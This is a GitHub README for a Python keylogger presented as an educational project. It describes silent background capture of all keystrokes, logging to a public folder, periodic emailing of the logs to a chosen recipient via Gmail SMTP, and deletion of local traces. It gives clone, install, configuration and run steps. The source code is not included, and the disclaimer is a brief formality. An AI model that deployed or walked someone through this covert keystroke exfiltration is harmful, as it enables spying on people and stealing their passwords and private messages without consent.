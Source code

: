 # 🖥️ Keylogger – Educational Python Project






  A simple yet powerful keylogger written in Python 🐍 for educational purposes. This tool demonstrates concepts in cybersecurity and Python programming by capturing keystrokes, logging 
  them to a file, and periodically emailing the logs to a specified address. The script runs silently in the background using threading.

# ✨ Features

  ⌨️ Keystroke Logging – Captures all keyboard events with timestamps 📅.

  🧵 Background Operation – Uses Python's threading for seamless background execution.

  📧 Automated Email Reports – Sends captured logs securely via Gmail’s SMTP.

  🗑️ Log Management – Deletes logs after sending to keep things clean and secure.

# ⚙️ How It Works

   Listener – Uses keyboard library to capture key presses.

   Logging – Saves keystrokes with timestamps in C:\Users\Public\logfile.txt.

   Scheduler – Runs in a background thread ⏱️.

   Emailing – Sends log files as email attachments at defined intervals.

   Cleanup – Deletes log file after successful email transmission.

   Persistence – Keeps running silently until manually stopped.

# 🚀 Getting Started

  📋 Prerequisites

  Python 3.x

  pip (Python package manager)

# 🛠️ Installation
   Clone the repository
   git clone https://github.com/lakshya-004/Keylogger.git  

# Navigate into the project folder
   cd Keylogger  

# Install dependencies
   pip install keyboard

📝 Configuration

   Before running the script, update your email settings inside Main.py:

   send_email_with_attachment(

   sender_email="your_email@gmail.com",

   app_password="your_gmail_app_password",

   recipient_email="recipient_email@example.com",

   subject="Keylogger Log File",

   body="Attached is the keylogger log file.",

   file_path=log_file_path

   )


  🔹 Use a Google App Password instead of your Gmail password (required for 2FA accounts).
  🔹 Change time.sleep(60) inside schedule_email() to adjust the email interval (in seconds).

# ▶️ Running the Script
  python Main.py


  The script runs in the background silently. To stop it:

  Press Ctrl + C in the terminal, or

  End the process via Task Manager.

# ⚠️ Disclaimer

  This project is for educational purposes only 🏫.
  Misuse of this tool on systems without explicit permission is illegal and unethical.
  The author is not responsible for any misuse or consequences.
  Use responsibly and within the boundaries of the law ⚖️.
